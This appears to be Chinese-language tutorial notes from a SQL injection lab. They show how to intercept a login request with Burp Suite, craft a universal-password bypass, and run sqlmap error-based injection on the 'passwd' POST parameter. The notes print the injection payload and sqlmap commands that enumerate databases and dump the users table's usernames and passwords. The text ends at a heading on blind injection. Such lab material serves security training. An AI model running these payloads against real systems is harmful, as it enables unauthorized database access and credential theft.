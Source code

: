 **利用burp suite测试**

**使用Proxy功能抓包**

![image-20201202230900185](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201202230900185.png)

**使用Repeater功能**

![image-20201202231127632](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201202231127632.png)

**构造万能密码**

![image-20201202231557574](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201202231557574.png)



**利用Sqlmap测试，进行POST注入**

复制Burpsuite截断的HTTP请求数据包到文本文件中，使用**Sqlmap -r 文件路径 -p 指定探测参数**

这里复制数据包至sqlmap目录下的target.txt文件

![image-20201203000201440](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201203000201440.png)

在Sqlmap中指定探测技术使用--technique  BEUSTQ

**--technique E** 基于报错注入

```
python sqlmap.py -r target.txt -p passwd --technique E
```

![image-20201203000800804](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201203000800804.png)

**payload：**

```
Parameter: passwd (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: uname=admin&passwd=123456' AND GTID_SUBSET(CONCAT(0x716a766b71,(SELECT (ELT(7356=7356,1))),0x7176706a71),7356)-- lpbw&submit=Submit
```

其后添加参数以获取其他信息

```
python sqlmap.py -r target.txt -p passwd --technique E --dbs
python sqlmap.py -r target.txt -p passwd --technique E --current-db --current-user --banner
python sqlmap.py -r target.txt -p passwd --technique E -D security --tables
python sqlmap.py -r target.txt -p passwd --technique E -D security -T users --columns
python sqlmap.py -r target.txt -p passwd --technique E -D security -T users -C password,username --dump
```



## POST 布尔、时间盲注
